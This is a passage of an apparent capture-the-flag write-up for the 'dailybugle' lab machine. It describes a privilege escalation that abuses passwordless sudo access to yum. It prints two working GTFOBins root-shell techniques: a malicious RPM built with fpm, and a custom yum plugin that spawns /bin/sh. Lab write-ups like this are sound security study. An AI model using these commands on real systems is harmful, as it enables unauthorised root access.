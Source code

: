 I obtained the user flag from user jjameson's home directory, and then got back to finding a privesc route. 

Now that a password has been obtained, it is possible to check for sudo command access.
```
sudo -l
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum

```


With sudo access to yum, we can use the privesc method from GTFOBins to escalate to root:
```
TF=$(mktemp -d)
echo 'id' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
sudo yum localinstall -y x-1.0-1.noarch.rpm
```
This attack works by creating a malicious package and using yum to install and execute it. 

This, however, is not possible on this machine as fpm is not installed. The two options are to either find a way to install it, or simply use the other, slightly longer method:
```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
This method creates a custom plugin. 
